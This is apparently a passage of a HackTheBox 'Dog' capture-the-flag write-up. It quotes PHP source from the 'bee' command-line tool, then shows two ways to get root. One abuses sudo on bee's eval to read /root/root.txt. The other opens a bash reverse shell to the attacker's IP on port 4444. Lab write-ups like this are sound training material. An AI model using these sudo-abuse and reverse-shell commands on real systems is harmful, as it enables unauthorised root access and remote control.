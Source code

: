 ~~~ shell
function bee_is_cli() {
  return (empty($_SERVER['SERVER_SOFTWARE']) && (php_sapi_name() == 'cli' || (is_numeric($_SERVER['argc']) && $_SERVER['argc'] > 0)));
}

/**
 * Return the HTML to display if this page is loaded in the browser.
 *
 * @return string
 *   The concatentated html to display.
 */
function bee_browser_load_html() {
  // Set the title to use in h1 and title elements.
  $title = "Bee Gone!";
  // Place a white block over "#!/usr/bin/env php" as this is output before
  // anything else.
  $browser_output = "<div style='background-color:white;position:absolute;width:15rem;height:3rem;top:0;left:0;z-index:9;'>&nbsp;</div>";
  // Add the bee logo and style appropriately.
  $browser_output .= "<img src='./images/bee.png' align='right' width='150' height='157' style='max-width:100%;margin-top:3rem;'>";
  // Add meaningful text.
  $browser_output .= "<h1 style='font-family:Tahoma;'>$title</h1>";
  $browser_output .= "<p style='font-family:Verdana;'>Bee is a command line tool only and will not work in the browser.</p>";
  // Add the document title using javascript when the window loads.
  $browser_output .= "<script>window.onload = function(){document.title='$title';}</script>";
  // Output the combined string.
  return $browser_output;
}
~~~




### Method one to get the root flag

~~~ shell
┌──(trit㉿chimp)-[~/HackTheBox/Dog]
└─$ ssh johncusack@10.10.11.58
-bash-5.0$ sudo /usr/local/bin/bee --root=/var/www/html eval "echo shell_exec('cat /root/root.txt');"
~~~


### Method two to get the root flag

On ssh server, I excuted the command:
~~~ shell
┌──(trit㉿chimp)-[~/HackTheBox/Dog]
└─$ ssh johncusack@10.10.11.58
-bash-5.0$ sudo /usr/local/bin/bee --root=/var/www/html eval "system('/bin/bash -c \"bash -i >& /dev/tcp/10.10.X.X/4444 0>&1\"');"
~~~
> Notice 10.10.X.X is IP address attack machine
{: .prompt-warning  }
